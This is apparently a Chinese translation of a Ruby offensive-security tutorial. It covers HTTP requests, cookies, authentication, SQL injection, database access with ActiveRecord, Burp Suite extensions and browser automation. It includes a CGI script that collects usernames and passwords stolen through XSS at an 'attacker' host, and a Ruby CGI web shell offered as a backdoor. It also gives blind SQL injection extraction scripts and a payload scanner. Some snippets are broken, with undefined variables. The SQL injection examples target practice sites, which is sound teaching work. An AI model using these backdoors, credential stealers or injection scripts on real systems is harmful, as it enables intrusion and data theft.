

# 模块 0x4 | Web Kung Fu

# 第 0x4 章 | Web Kung Fu

## 发送 Get 请求

### 使用 Net::HTTP

```
#!/usr/bin/env ruby
# KING SABRI
# Usage | ruby send_get.rb [HOST] [SESSION_ID]
#
require "net/http"

host       = ARGV[0] || "172.16.50.139"
session_id = ARGV[1] || "3c0e9a7edfa6682cb891f1c3df8a33ad"

def send_sqli(query)

  uri = URI.parse("https://#{host}/script/path/file.php?")
  uri.query = URI.encode_www_form({"var1"=> "val1",
                                   "var2"=> "val2",
                                   "var3"=> "val3"})

  http = Net::HTTP.new(uri.host, uri.port)
  http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS

  request = Net::HTTP::Get.new(uri.request_uri)
  request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:39.0) Gecko/20100101 Firefox/39.0"
  request["Connection"] = "keep-alive"
  request["Accept-Language"] = "en-US,en;q=0.5"
  request["Accept-Encoding"] = "gzip, deflate"
  request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
  request["PHPSESSID"] = session_id

  begin
    puts "Sending.. "
    response = http.request(request).body
  rescue Exception => e
    puts "[!] Failed!"
    puts e
  end

end 
```

#### 简单的缩短 URL 提取器

**urlextractor.rb**

```
#!/usr/bin/env ruby
require 'net/http'
uri = ARGV[0]
loop do
  puts uri
  res = Net::HTTP.get_response URI uri
  if !res['location'].nil?
    uri = res['location']
  else
    break
  end
end 
```

运行它

```
$ruby redirect.rb http://bit.ly/1JSs7vj
http://bit.ly/1JSs7vj
http://ow.ly/XLGfi
https://tinyurl.com/hg69vgm
http://rubyfu.net 
```

好的，如果我给你这个缩短的 URL（`http://short-url.link/f2a`）呢？尝试上面的脚本并告诉我发生了什么

### 使用 Open-uri

这里是另一种做同样事情的方法

```
#!/usr/bin/env ruby
require 'open-uri'
require 'openssl'

host       = ARGV[0] || "172.16.50.139"
session_id = ARGV[1] || "3c0e9a7edfa6682cb891f1c3df8a33ad"

def send_sqli
  uri = URI.parse("https://#{host}/script/path/file.php?var1=val1&var2=val2&var3=val3")
  headers =
      {
        "User-Agent" => "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:39.0) Gecko/20100101 Firefox/39.0",
        "Connection" => "keep-alive",
        "Accept-Language" => "en-US,en;q=0.5",
        "Accept-Encoding" => "gzip, deflate",
        "Accept" => "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Cookie" => "PHPSESSID=#{session_id}"
      }
  request = open(uri, :ssl_verify_mode => OpenSSL::SSL::VERIFY_NONE, headers)
  puts "Sending.. "
  response = request.read
  puts response
end 
```

## 发送带有自定义标头的 HTTP Post 请求

这里是一个从文件中获取的 post body

```
require 'net/http'

uri = URI.parse "http://example.com/Pages/PostPage.aspx"
headers =
{
   'Referer' => 'http://example.com/Pages/SomePage.aspx',
   'Cookie' => 'TS9e4B=ae79efe; WSS_FullScrende=false; ASP.NET_SessionId=rxuvh3l5dam',
   'Connection' => 'keep-alive',
   'Content-Type' =>'application/x-www-form-urlencoded'
 }
post = File.read post_file   # Raw Post Body's Data
http    = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
request = Net::HTTP::Post.new(uri.path, headers)
request.body = post
response = http.request request
puts response.code
puts response.body 
```

## 对 Post 变量有更多控制

让我们将以下表单作为一个简单的 post 表单在我们的脚本中模拟

|  |
| --- |
| **图 1.** 简单的 Post 表单 |

Post 表单代码：

```
<FORM METHOD=POST ACTION="http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi">

    <P>Name field: <INPUT TYPE="text" Name="name" SIZE=30 VALUE = "You name">
    <P>Name field: <TEXTAREA TYPE="textarea" ROWS=5 COLS=30 Name="textarea">Your comment.</TEXTAREA>

    <P>Your age: <INPUT TYPE="radio" NAME="radiobutton" VALUE="youngun"> younger than 21,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="middleun" CHECKED> 21 -59,
    <INPUT TYPE="radio" NAME="radiobutton" VALUE="oldun"> 60 or older

    <P>Things you like:
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="pizza" CHECKED>pizza,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="hamburgers" CHECKED>hamburgers,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="spinich">spinich,
    <INPUT TYPE="checkbox" NAME="checkedbox" VALUE="mashed potatoes" CHECKED>mashed potatoes

    <P>What you like most:
    <SELECT NAME="selectitem">
        <OPTION>pizza<OPTION>hamburgers<OPTION SELECTED>spinich<OPTION>mashed potatoes<OPTION>other
    </SELECT>

    <P>Reset: <INPUT TYPE="reset" >

    <P>Submit: <INPUT TYPE="submit" NAME="submitbutton" VALUE="Do it!" ACTION="SEND">
</FORM> 
```

我们需要发送一个 Post 请求，就像表单图 1 中的控制每个值和变量一样。

```
require "net/http"
require "uri"

# Parsing the URL and instantiate http
uri = URI.parse("http://wwwx.cs.unc.edu/~jbs/aw-wwwp/docs/resources/perl/perl-cgi/programs/cgi_stdin.cgi")
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS

# Instantiate HTTP Post request
request = Net::HTTP::Post.new(uri.request_uri)

# Headers
request["Accept"] = "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"
request["User-Agent"] = "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:37.0) Gecko/20100101 Firefox/37.0"
request["Referer"] = "http://www.cs.unc.edu/~jbs/resources/perl/perl-cgi/programs/form1-POST.html"
request["Connection"] = "keep-alive"
request["Accept-Language"] = "en-US,en;q=0.5"
request["Accept-Encoding"] = "gzip, deflate"
request["Content-Type"] = "application/x-www-form-urlencoded"

# Post body
request.set_form_data({
                          "name"         => "My title is here",
                          "textarea"     => "My grate message here.",
                          "radiobutton"  => "middleun",
                          "checkedbox"   => "pizza",
                          "checkedbox"   => "hamburgers",
                          "checkedbox"   => "mashed potatoes",
                          "selectitem"   => "hamburgers",
                          "submitbutton" => "Do it!"
                      })

# Receive the response
response = http.request(request)

puts "Status code: " + response.code
puts "Response body: " + response.body 
```

你可以使用`body`方法代替`set_form_data`以避免自动编码的任何原因

```
request.body = "name=My title is here&textarea=My grate message here.&radiobutton=middleun&checkedbox=pizza&checkedboxhamburgers&checkedbox=mashed potatoes&selectitem=hamburgers&submitbutton=Do it!" 
```

## 处理 Cookies

有时候你需要在认证后处理一些操作。理想情况下，这都与 cookies 有关。

注意：

+   要读取 cookies，你需要从**响应**中获取**set-cookie**

+   要设置 cookies，你需要将**Cookie**设置到**请求**中

```
puts "[*] Logging-in"
uri1 = URI.parse("http://host/login.aspx")
uri2 = URI.parse("http://host/report.aspx")

Net::HTTP.start(uri1.host, uri1.port) do |http|
  http.use_ssl = true if uri1.scheme == 'https'    # Enable HTTPS support if it's HTTPS
  puts "[*] Logging in"
  p_request  = Net::HTTP::Post.new(uri1)
  p_request.set_form_data({"loginName"=>"admin", "password"=>"P@ssw0rd"})
  p_response = http.request(p_request)
  cookies    = p_response.response['set-cookie']    # Save Cookies

  puts "[*] Do Post-authentication actions"
  Net::HTTP::Get.new(uri2)
  g_request  = Net::HTTP::Get.new(uri2)
  g_request['Cookie'] = cookies                     # Restore Saved Cookies
  g_response = http.request(g_request)
end 
```

## HTTP 认证（基本、摘要、NTLM）

### 基本认证

```
require 'net/http'

username = "Admin"
password = "P@ssw0rd"
uri      = URI("http://rubyfu.net/login")

http = http = Net::HTTP.new(uri.host, uri.port)
req  = Net::HTTP::Get.new(uri)
req.basic_auth usernamen, password
res  = http.request(request)

puts res.body 
```

### 摘要认证

+   安装 net-http-digest_auth gem

    ```
    gem install net-http-digest_auth 
    ```

```
require 'ntlm/http'
require 'net/http/digest_auth'

uri          = URI("http://rubyfu.net/login")
uri.user     = "Admin"
uri.password = "P@ssw0rd"

http = Net::HTTP.new(uri.host, uri.port)
digest_auth = Net::HTTP::DigestAuth.new
req  = Net::HTTP::Get.new(uri)
auth = digest_auth.auth_header uri, res['www-authenticate'], 'GET'
req.add_field 'Authorization', auth
res  = http.request(request)

puts res.body 
```

这里有一个[示例](https://gist.github.com/KINGSABRI/a1df06eb48cbc52660577df6c7947ed5)来构建它而不使用外部 gem

### NTLM 认证

+   安装 ntlm gem

    ```
    gem install ruby-ntlm 
    ```

    注意：ntlm gem 适用于 http、imap、smtp 协议。[阅读更多](https://github.com/macks/ruby-ntlm)。

```
require 'ntlm/http'

username = "Admin"
password = "P@ssw0rd"
uri      = URI("http://rubyfu.net/login")

http = http = Net::HTTP.new(uri.host, uri.port)
req  = Net::HTTP::Get.new(uri)
req.ntlm_auth usernamen, password
res  = http.request(request)

puts res.body 
```

## CGI

### 获取信息 - 来自 XSS/HTMLi 攻击

当你利用 XSS 或 HTML 注入时，可能需要从被攻击用户那里接收到 grepped 数据传输到你的外部服务器。这里有一个简单的 CGI 脚本示例，接收从伪登录发送的 get 请求，要求用户输入用户名和密码，然后将数据存储到`hacked_login.txt`文本文件中，并修复其权限以确保没有人可以从公共访问该文件。

将以下内容添加到`/etc/apache2/sites-enabled/[SITE]`，然后重新启动服务

```
<Directory /var/www/[CGI FOLDER]>
        AddHandler cgi-script .rb
        Options +ExecCGI
</Directory> 
```

现在，将脚本放在`/var/www/[CGI FOLDER]`中。现在你可以使用它了。

```
#!/usr/bin/ruby
# CGI script gets user/pass | http://attacker/info.rb?user=USER&pass=PASS
require 'cgi'
require 'uri'

cgi  = CGI.new
cgi.header  # content type 'text/html'
user = URI.encode cgi['user']
pass = URI.encode cgi['pass']
time = Time.now.strftime("%D %T")

file = 'hacked_login.txt'
File.open(file, "a") do |f|
  f.puts time   # Time of receiving the get request
  f.puts "#{URI.decode user}:#{URI.decode pass}"    # The data
  f.puts cgi.remote_addr    # Remote user IP
  f.puts cgi.referer    # The vulnerable site URL
  f.puts "---------------------------"
end
File.chmod(0200, file)  # To prevent public access to the log file

puts "" 
```

### Web Shell^(1) - 通过 GET 执行命令

如果你有一个支持 Ruby CGI 的服务器，你可以使用以下内容作为后门

```
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd']) 
```

现在你可以简单地使用 web 浏览器、Netcat 或 WebShellConsole^(1)来执行你的命令。例如**浏览器**

```
http://host/cgi/shell.rb?cmd=ls -la 
```

**Netcat**

```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80 
```

**WebShellConsole**

运行 wsc

```
ruby wsc.rb 
```

添加 Shell URL

```
Shell -> set http://host/cgi/shell.rb?cmd= 
```

现在提示你的命令

```
Shell -> ls -la 
```

## Mechanize

既然我们在谈论在 Ruby 中处理 web，我们不能忘记**Mechanize** gem，这是最知名的用于处理 web 的库。

**官方描述说**，Mechanize 库用于自动化与网站的交互。Mechanize 自动存储和发送 cookies，跟随重定向，并可以跟随链接和提交表单。表单字段可以填充并提交。Mechanize 还会跟踪你访问过的站点作为历史记录。

更多关于 Mechanize gem

+   [开始使用 Mechanize](http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html)

+   [Mechanize 示例](http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html)

+   [RailsCasts | Mechanize 教程](http://railscasts.com/episodes/191-mechanize)

既然你知道了艰难的方式，你会发现 Mechanize 就像鼠标点击一样简单！试试吧！

## HTTP.rb

HTTP（The Gem！即 http.rb）是一个用于从 Ruby 发出请求的易于使用的客户端库。它使用了一种简单的方法链接系统来构建请求，类似于 Python 的 Requests。

在幕后，http.rb 使用 http_parser.rb，这是一个基于 Node.js 解析器和其 Java 版本的快速 HTTP 解析本地扩展。这个库不仅仅是另一个围绕 Net::HTTP 的包装器。它本地实现了 HTTP 协议并将解析外包给本地扩展。

关于 http.rb gem 的更多信息

+   [官方仓库](https://github.com/httprb/http)

+   [官方 wiki](https://github.com/httprb/http/wiki)

* * *

> ¹. [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) 是一个简单的交互式控制台，使用 HTTP GET 与简单的 Web shell 进行交互，而不是使用浏览器。wsc 将使用任何使用 GET 方法的 shell。它还负责所有 URL 编码。↩

+   [CGI 示例](http://www.java2s.com/Code/Ruby/CGI/CatalogCGI.htm)

# SQL 注入扫描器

# SQL 注入扫描器

## 基本的 SQLi 脚本作为命令行浏览器

这是一个非常基本的脚本，获取你提供的负载并将其发送到易受攻击的参数，然后将响应返回给你。我将使用([`testphp.vulnweb.com/`](http://testphp.vulnweb.com/))，因为它是合法的测试。

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
http.use_ssl = true if uri.scheme == 'https'    # Enable HTTPS support if it's HTTPS
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts "" 
```

> 我已经注释掉了 `puts response.body.gsub(/<.*?>/, '').strip` 这一行，并添加了一个自定义的正则表达式来修复我们的目标输出。

让我们来测试一下它的功能

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL 
```

这是一个非常基本和简单的 SQL 注入实体扫描器，尽可能地完善它！

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      "'",
      '"',
      "' or 1=2--+"
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occurred = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil? 
```

在这个 URL 上尝试一下 ([`testasp.vulnweb.com/showforum.asp?id=0`](http://testasp.vulnweb.com/showforum.asp?id=0))

结果

```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable! 
```

## 基于布尔值的 SQLi Exploit 脚本

这是一个针对 [sqli-labs](https://github.com/Audi-1/sqli-labs) 可能存在漏洞的应用程序的基于布尔值的 SQLi 攻击。

```
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_bbsqli(url, query)
  begin

    response = open(URI.parse( URI.encode("#{url}#{query}") ))

    if !response.read.scan("You are in...........").empty?
      return 1 # TRUE
    end

  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-8/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold

extracted = []
(1..100).map do |position|
  (32..126).map do |char|
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green

     # Put your query here 
#      query = "1' AND (ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}--+"
     query = "1' AND (ASCII(SUBSTR((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1),#{position},1)))=#{char}--+"
     result = send_bbsqli(url, query)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green

           extracted <<  char.chr
           puts "[+] Extracted characters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green 
```

## 基于时间的 SQLi Exploit 脚本

一个针对 [sqli-labs](https://github.com/Audi-1/sqli-labs) 可能存在漏洞的应用程序的基于时间的 SQLi 攻击。

```
#!/usr/bin/env ruby
# Boolean-based SQLi exploit
# Sabri Saleh | @KINGSABRI
#
require 'open-uri'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} <IP ADDRESS>"
  exit 0
else
  host = ARGV[0]
end

# Just colorizing outputs
class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

# SQL injection
def send_tbsqli(url, query, time2wait)
  begin
    start_time = Time.now
    response = open(URI.parse( URI.encode("#{url}#{query}") ))
    end_time   = Time.now
    howlong    = end_time - start_time

    if howlong >= time2wait
      return 1 # TRUE
    end

  rescue Exception => e
    puts "[!] Failed to SQL inject #{e}".red 
    exit 0
  end
end

url = "http://#{host}/sqli-labs/Less-10/index.php?id="

puts "[*] Start Sending Boolean-based SQLi".bold
time2wait = 5
extracted = []
(1..76).map do |position| 
  (32..126).map do |char|
     puts "[*] Brute-forcing on Position: ".bold + "#{position}".green + " | ".bold + "Character: ".bold + "#{char} = #{char.chr}".green

     # Put your query here 
     query = "1\" AND IF((ASCII(SUBSTR((SELECT DATABASE()),#{position},1)))=#{char}, SLEEP(#{time2wait}), NULL)--+"

     result = send_tbsqli(url, query, time2wait)
         if result.eql? 1
           puts "[+] Found character: ".bold + "#{char.to_s(16)} hex".green

           extracted <<  char.chr
           puts "[+] Extracted characters: ".bold + "#{extracted.join}".green
           break 
         end
   end
end

puts "\n\n[+] Final found string: ".bold + "#{extracted.join}".green 
```

# 数据库

# 数据库

处理数据库是 Web 测试中必需的知识，在这里我们将介绍最常见的数据库以及如何在 Ruby 中处理它。

## SQLite

+   安装 sqlite3 gem

    ```
    gem install sqlite3 
    ```

    你必须在系统上安装 sqlite3 开发库

    ```
    apt-get install libsqlite3-dev 
    ```

+   基本操作

```
require "sqlite3"

# Open/Create a database
db = SQLite3::Database.new "rubyfu.db"

# Create a table
rows = db.execute <<-SQL
  CREATE TABLE attackers (
   id   INTEGER PRIMARY KEY   AUTOINCREMENT,
   name TEXT    NOT NULL,
   ip   CHAR(50)
);
SQL

# Execute a few inserts
{
  'Anonymous'    => "192.168.0.7",
  'LulzSec'      => "192.168.0.14",
  'Lizard Squad' => "192.168.0.253"
}.each do |attacker, ip|
  db.execute("INSERT INTO attackers (name, ip)
              VALUES (?, ?)", [attacker, ip])
end

# Find a few rows
db.execute "SELECT id,name,ip FROM attackers"

# List all tables
db.execute  "SELECT * FROM sqlite_master where type='table'" 
```

## Active Record

+   安装 ActiveRecord gem

    ```
    gem install activerecord 
    ```

### MySQL 数据库

+   安装 MySQL 适配器 gem

    ```
    gem install mysql 
    ```

登录到 mysql 控制台并创建数据库 *rubyfu_db* 和表 *attackers*

```
create database rubyfu_db;

grant all on rubyfu_db.* to 'root'@'localhost';

create table attackers (
  id int not null auto_increment,
  name varchar(100) not null,
  ip text not null,
  primary key (id)
);

exit 
```

输出如下所示

```
mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 41
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> create database rubyfu_db;
Query OK, 1 row affected (0.00 sec)

mysql> grant all on rubyfu_db.* to 'root'@'localhost';
Query OK, 0 rows affected (0.00 sec)

mysql> use rubyfu_db;
Database changed
mysql> create table attackers (
    ->   id int not null auto_increment,
    ->   name varchar(100) not null,
    ->   ip text not null,
    ->   primary key (id)
    -> );
Query OK, 0 rows affected (0.01 sec)

mysql> exit 
```

现在，让我们连接到 *rubyfu_db* 数据库

```
require 'active_record'
ActiveRecord::Base.establish_connection(
:adapter  => "mysql",
:username => "root",
:password => "root",
:host     => "localhost",
:database => "rubyfu_db"
)

class Attackers < ActiveRecord::Base
end 
```

+   使用 ActiveRecord 库，可作为 activerecord gem 使用。

+   使用 ActiveRecord 适配器，即 *mysql*

+   建立到数据库 *rubyfu_db* 的连接

+   创建一个名为 *Attackers* 的类，遵循上述约定（attacker）

```
Attackers.create(:name => 'Anonymous',    :ip => "192.168.0.7")
Attackers.create(:name => 'LulzSec',      :ip => "192.168.0.14")
Attackers.create(:name => 'Lizard Squad', :ip => "192.168.0.253") 
```

您将注意到 ActiveRecord 会检查数据库表本身，以查找可用的列。这就是我们能够使用 participant.name 的访问器方法而无需显式定义它们的原因：我们在数据库中定义了它们，ActiveRecord 就会识别它们。

您可以找到该项

+   按 id

    ```
    Attackers.find(1) 
    ```

+   按名称

    ```
    Attackers.find_by(name: "Anonymous") 
    ```

    结果

    ```
    #<Attackers:0x000000010a6ad0 id: 1, name: "Anonymous", ip: "192.168.0.7"> 
    ```

或者你可以将其作为对象处理

```
attacker = Attackers.find(3)
attacker.id
attacker.name
attacker.ip 
```

如果您想从数据库中删除一个项目，可以使用 ActiveRecord::Base 的 destroy（删除数据库中的记录）方法：

```
Attackers.find(2).destroy 
```

因此，要编写一个完整��脚本，

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# ActiveRecord with MySQL
#
require 'active_record'

# Connect to database
ActiveRecord::Base.establish_connection(
                                        :adapter  => "mysql",
                                        :username => "root",
                                        :password => "root",
                                        :host     => "localhost",
                                        :database => "rubyfu_db"
                                       )

# Create Active Record Model for the table
class Attackers < ActiveRecord::Base
end

# Create New Entries to the table
Attackers.create(:name => 'Anonymous',    :ip => "192.168.0.7")
Attackers.create(:name => 'LulzSec',      :ip => "192.168.0.14")
Attackers.create(:name => 'Lizard Squad', :ip => "192.168.0.253")

# Interact with table items
attacker = Attackers.find(3)
attacker.id
attacker.name
attacker.ip

# Delete a table Item
Attackers.find(2).destroy 
```

### Oracle 数据库

+   先决条件

为了使[ruby-oci8](http://www.rubydoc.info/gems/ruby-oci8/file/docs/install-full-client.md) -这是 Oracle 驱动程序的主要依赖项-正常工作，您需要执行一些额外的步骤：

+   [Linux](http://www.oracle.com/technetwork/topics/linuxx86-64soft-092277.html) | [Windows](http://www.oracle.com/technetwork/topics/winsoft-085727.html) | [Mac](http://www.oracle.com/technetwork/topics/intel-macsoft-096467.html)的下载链接

    +   instantclient-basic-[OS].[Arch]-[VERSION].zip

    +   instantclient-sqlplus-[OS].[Arch]-[VERSION].zip

    +   instantclient-sdk-[OS].[Arch]-[VERSION].zip

+   解压下载的文件

```
unzip -qq instantclient-basic-linux.x64-12.1.0.2.0.zip
unzip -qq instantclient-sdk-linux.x64-12.1.0.2.0.zip
unzip -qq instantclient-sqlplus-linux.x64-12.1.0.2.0.zip 
```

+   以 root / sudo 身份创建系统目录

```
mkdir -p /usr/local/oracle/{network,product/instantclient_64/12.1.0.2.0/{bin,lib,jdbc/lib,rdbms/jlib,sqlplus/admin/}} 
```

文件结构应该是

```
/usr/local/oracle/
├── admin
│   └── network
└── product
    └── instantclient_64
        └── 12.1.0.2.0
            ├── bin
            ├── jdbc
            │   └── lib
            ├── lib
            ├── rdbms
            │   └── jlib
            └── sqlplus
                └── admin 
```

+   移动文件

```
cd instantclient_12_1

mv ojdbc* /usr/local/oracle/product/instantclient_64/12.1.0.2.0/jdbc/lib/
mv x*.jar /usr/local/oracle/product/instantclient_64/12.1.0.2.0/rdbms/jlib/
# rename glogin.sql to login.sql
mv glogin.sql /usr/local/oracle/product/instantclient_64/12.1.0.2.0/sqlplus/admin/login.sql
mv sdk /usr/local/oracle/product/instantclient_64/12.1.0.2.0/lib/
mv *README /usr/local/oracle/product/instantclient_64/12.1.0.2.0/
mv * /usr/local/oracle/product/instantclient_64/12.1.0.2.0/bin/
# Symlink of instantclient
cd /usr/local/oracle/product/instantclient_64/12.1.0.2.0/bin
ln -s libclntsh.so.12.1 libclntsh.so
ln -s ../lib/sdk sdk
cd - 
```

+   设置环境

将 Oracle 环境变量追加到`~/.bashrc`中，然后添加以下内容：

```
# Oracle Environment
export ORACLE_BASE=/usr/local/oracle
export ORACLE_HOME=$ORACLE_BASE/product/instantclient_64/12.1.0.2.0
export PATH=$ORACLE_HOME/bin:$PATH
LD_LIBRARY_PATH=$ORACLE_HOME/bin
export LD_LIBRARY_PATH
export TNS_ADMIN=$ORACLE_BASE/admin/network
export SQLPATH=$ORACLE_HOME/sqlplus/admin 
```

然后运行：

```
source ~/.bashrc 
```

+   安装 Oracle 适配器 gem

    ```
    gem install ruby-oci8 activerecord-oracle_enhanced-adapter 
    ```

现在让我们连接

```
require 'active_record'

ActiveRecord::Base.establish_connection(
                      :adapter  => "oracle_enhanced",
                      :database => "192.168.0.13:1521/XE",
                      :username => "SYSDBA",
                      :password => "welcome1"
                       )

class DBAUsers < ActiveRecord::Base
end 
```

### MSSQL 数据库

+   安装 MSSQL 适配器 gem

```
gem install tiny_tds activerecord-sqlserver-adapter 
```

* * *

# 扩展 Burp Suite

# 扩展 Burp Suite

## 为 Burp 扩展设置 Ruby 环境

1.  从[JRuby Downloads](http://jruby.org/download)下载一个稳定版本的 JRuby

1.  选择 Linux（JRuby x.x.x Complete .jar）的 jar 包或 Windows 的可执行文件。

1.  从**Burp Suite** >> **Extender** >> **Options** >> **Ruby Environment**导入环境。


导入 Burp Suite Extender 核心 API `IBurpExtender`

**alert.rb**

```
require 'java'
java_import 'burp.IBurpExtender'

class BurpExtender
  include IBurpExtender

  def registerExtenderCallbacks(callbacks)
    callbacks.setExtensionName("Rubyfu Alert!")
    callbacks.issueAlert("Alert: Ruby goes evil!")
  end
end 
```

加载插件 alert.rb


检查警报选项卡


### Ruby 模板倡议中的 Burp Suite 扩展

随着 Rubyfu 项目的不断发展，我们决定开发我们自己的版本，为 Ruby 在信息安全社区中建立一个坚实的地位。我们决定建立一个仓库，使得用 Ruby 构建 Burp Suite 扩展变得非常简单和易懂。[**仓库链接**](https://github.com/KINGSABRI/BurpSuite_Extension_Ruby_Template)

## Buby

Buby 是 JRuby 与流行的商业网络安全测试工具 Burp Suite 的混合。Burp 是通过使用 BurpExtender API 的 Java 扩展从 JRuby 派生并与之绑定的。该扩展旨在向 Burp Suite 添加 Ruby 脚本功能，其接口可与 Burp 的纯 Java 扩展接口相媲美。

**资源**

+   Burp Suite Extender API 文档 [ [链接](https://portswigger.net/burp/extender/api/) ]

+   逐步指导使用 Ruby 编写的 Burp 扩展，用于 JSON 加密/解密 [ [Part 1](https://www.trustwave.com/Resources/SpiderLabs-Blog/JSON-Crypto-Helper-a-Ruby-based-Burp-Extension-for-JSON-Encryption/Decryption---Part-I/) | [Part 2](http://blog.spiderlabs.com/2015/01/json-crypto-helper-a-ruby-based-burp-extension-for-json-encryptiondecryption-part-ii.html) ]

+   Buby [ [website](http://human.versus.computer/buby/) | [rdoc](http://human.versus.computer/buby/rdoc/index.html) ]

+   用 Ruby 编写的扩展 [ [WhatThWAF](https://github.com/null--/what-the-waf) ]

+   使用 Buby 编写的 Burp suite 脚本 [ [Link](http://www.gotohack.org/2011/05/cktricky-appsec-buby-script-basics-part.html) ]

# 浏览器操作

# 浏览器操作

作为黑客，有时您需要自动化客户端测试（例如 XSS）并减少特别是在 XSS 测试中发生的误报。传统的自动化依赖于在响应中找到发送的有效负载，但这并不意味着漏洞真正被利用了，因此您必须一遍又一遍地手动执行。

